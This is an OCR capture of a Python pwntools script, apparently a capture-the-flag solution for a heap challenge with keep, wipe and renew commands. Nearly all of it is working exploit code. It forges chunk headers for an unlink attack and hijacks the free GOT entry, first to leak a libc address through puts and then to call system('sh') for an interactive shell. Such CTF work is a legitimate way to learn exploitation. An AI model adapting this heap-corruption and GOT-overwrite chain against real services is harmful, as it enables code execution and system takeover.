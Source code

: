 ```python
    r.sendlineafter("Tell me your secret:", content)


keep('huge', 'A'*8)
wipe('huge')
keep('small', 'B'*8)
wipe('small')
keep('huge', 'C'*8) # now buf_huge and buf_small point to the same adr
wipe('small') # free the huge by use buf_small

keep('small', 'D'*8)
keep('big', 'E'*8) # now we can use renew() huge overflow 

fake_fd = 0x6020a8-0x18 # FD
fake_bk = 0x6020a8-0x10 # BK

# overflow big to fake chunk info make it fastbin
payload = ""
payload += p64(0x0) + p64(0x21)  # fake prev_chunk header
payload += p64(fake_fd) + p64(fake_bk) 
payload += p64(0x20) # fake big chunk's prev_size
payload += p64(0xfb0) # fake big chunk size
payload += 'B'*0x80
renew('huge', payload)

wipe('big')

payload = ""
payload += 'A'*0x10 + p64(0)
payload += p64(0x6020b0) # make buf_huge points to buf_small
payload += p64(free_got) # buf_small points to GOT of free
renew('huge', payload)

renew('small', p64(puts_got_value)*2) # after this free(buf) ==> puts(buf) *2 so that puts won't break

# make buf_small points to libc_start_main_got
# wipe(small) -> free(small) -> puts(small) -> puts(libc_start_main)
renew('huge', p64(libc_start_main_got) + p32(1)*3) # p32(1) for inuse variable of those small big huge secret since renew() will check it
wipe('small')
x = r.recvline(1)
print repr(x)

#libc = ELF('/root/glibc-2.19/64/lib/libc.so.6')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('libc.so.6')
base = u64(x[:6].ljust(8,'\x00')) - libc.symbols['__libc_start_main']
print hex(base)
system = base + libc.symbols['system']

renew('huge', p64(free_got) + p32(1)*3) # make buf_small points to GOT of free
renew('small', p64(system) + p64(puts_got_value)) # GOT hijack free to system

renew('huge', p64(0x6020b8)+'sh\x00')
wipe('small') # wipe(small) -> free(small) -> system(small) -> system('sh')

r.interactive()
```
